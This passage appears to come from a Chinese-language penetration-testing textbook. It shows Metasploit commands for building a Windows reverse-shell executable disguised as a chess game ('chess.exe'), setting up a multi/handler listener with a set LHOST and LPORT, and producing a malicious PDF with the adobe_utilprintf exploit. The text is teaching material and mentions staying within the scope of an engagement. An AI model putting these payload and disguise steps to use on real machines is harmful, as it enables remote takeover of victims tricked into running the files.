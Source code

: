 ![Client-side exploitation](graphics/477-1_12_42.jpg)

正如前面的截图所示，我们的第一次尝试是成功的，从这一点上，我们可以继续使用前面介绍的后期开发技术。请记住，遵守我们工作范围中详述的要求。

# 二进制有效载荷

在 metasploit 工具中，我们能够生成我们自己的二进制有效载荷，这就是我们将在本节中介绍的内容。要查看此选项，请启动 metasploit 工具并输入`msfpayload windows/shell_reverse_tcp O`。最后的`O`将显示可为我们的有效载荷设置的选项。因为我们正在设置一个反向 shell，所以您可能对该选项有很好的了解。以下屏幕截图显示了此命令的输出示例：

![Binary payloads](graphics/477-1_12_43.jpg)

正如前面的屏幕截图所示，我们有基于 Kali 机器本地机器地址的默认设置。因此，我们真的不需要任何更改，除非我们想要定义一个特定的`LPORT`来退出防火墙。因此，出于我们的目的，我们将保持设置不变。输入`msfpayload LPORT=4443 X > /tmp/chess.exe`。创建文件后，我们将查看文件的详细信息。在窗口中，输入`file /tmp/chess.exe`。

以下屏幕截图显示了这些命令的输出示例：

![Binary payloads](graphics/477-1_12_44.jpg)

我们已经为下一步做好了准备，那就是把文件放到受害者机器上，这样他们就可以执行它了。这就是我们选择`chess`名称的原因；看来我们有一个游戏让他们玩。在将文件传输到机器之前，我们必须设置 metasploit 工具以接收连接。在 metasploit 窗口中，输入以下内容：

```
use exploit/multi/handler
set payload windows/shell/reverse_tcp
set LHOST 192.168.177.170
set LPORT 4444
exploit

```

以下屏幕截图显示了该结果的示例：

![Binary payloads](graphics/477-1_12_45.jpg)

我们现在准备让受害者连接。正如我们在本章中所做的那样，我们将文件复制到受害者机器，然后执行它。由于我们已经多次解释了这一点，我们将进入下一个项目。

# 恶意 PDF 文件

另一种流行的攻击手段是使用普通文件来承载我们的攻击代码，这就是我们对恶意 PDF 文件所做的。我们将在 PDF 文件中创建有效负载；当受害者使用易受攻击的 Adobe Reader 版本运行它时，我们可以访问该机器。这一载体已被多次用于危害许多公司。在 metasploit 中，我们可以使用许多工具来创建 PDF 文件。在 metasploit 中输入以下命令：

```
use exploit/windows/fileformat/adobe_utilprintf
set FILENAME pay.pdf
set LHOST <Kali>
set LPORT 5555
show options
exploit

```

以下屏幕截图显示了此命令的输出示例：

![Malicious PDF files](graphics/477-1_12_46.jpg)
